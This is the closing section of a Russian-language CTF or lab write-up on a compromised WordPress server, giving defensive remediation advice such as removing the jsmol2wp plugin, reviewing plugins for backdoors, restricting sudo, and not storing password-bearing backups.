


---

## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак в реальной инфраструктуре следует:
1.  **Обновление ПО:** Регулярно обновлять CMS WordPress, плагины и темы. Удалить устаревший плагин `jsmol2wp`.
2.  **Аудит кода:** Проводить проверку исходного кода сторонних плагинов (Code Review) перед установкой, чтобы избежать внедрения бэкдоров (как в случае с `Hello Dolly`).
3.  **Управление доступом:** Соблюдать принцип наименьших привилегий (Least Privilege). Запретить пользователю `xavi` выполнение любых команд через `sudo`. Ограничить права групп на чтение домашних директорий других пользователей.
4.  **Безопасность данных:** Не хранить старые резервные копии (`.zip`) с конфиденциальными данными (паролями БД) на рабочем сервере. Использовать сложные пароли и менеджеры паролей.
```